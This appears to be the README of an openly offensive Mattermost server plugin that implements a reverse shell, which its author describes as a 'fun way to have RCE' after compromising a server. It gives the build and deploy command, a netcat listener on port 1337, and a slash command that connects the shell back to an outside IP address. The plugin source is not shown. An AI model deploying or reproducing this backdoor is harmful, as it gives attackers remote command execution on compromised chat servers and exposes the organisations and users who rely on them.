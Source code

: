 # Mattermost Reverse Shell plugin

This plugin implements a reverse shell as a server plugin.

## Why?

If you compromise a Mattermost server, this is a fun way to have RCE.

## Running the plugin

```
make && make deploy
```

Then... start a reverse shell listener
```
nc -lvp 1337
```

and connect
```
/reverse-shell connect 1.2.3.4 1337
```
